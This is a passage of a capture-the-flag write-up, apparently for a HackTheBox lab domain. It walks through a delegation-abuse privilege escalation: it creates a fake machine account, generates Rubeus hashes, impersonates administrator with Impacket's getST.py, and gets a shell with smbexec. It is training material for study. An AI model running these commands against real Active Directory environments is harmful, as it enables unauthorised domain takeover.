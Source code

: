 With Built-in AD modules, check that the last command worked.
```bash
Get-ADComputer (Get-Variable -Name "targetComputer").Value \
    -Properties PrincipalsAllowedToDelegateToAccount
```

Use Rubeus to Generate Hashes for the fake account we just created
```bash
./r.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
```

So basically so far we created a fake user with powermad from the domain controller,   
We then used built in AD tools to give it Constrained Delegation Privilege,   
Which means we gave it the right to impersonate anybody.   
And we used Rubeus to generate hashes based on the password we chose for our fake user account.  
From our own system we can now use Impacket to leverage the fake account to request a TGT as administrator.

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git
```
```bash
/home/user/Tools/impacket/examples/getST.py \
    support.htb/FAKE01 \
    -dc-ip dc.support.htb \
    -impersonate administrator \
    -spn http/dc.support.htb \
    -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
```

And finally we can use that TGT to connect as administrator over smb
```
export KRB5CCNAME=administrator.ccache
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```
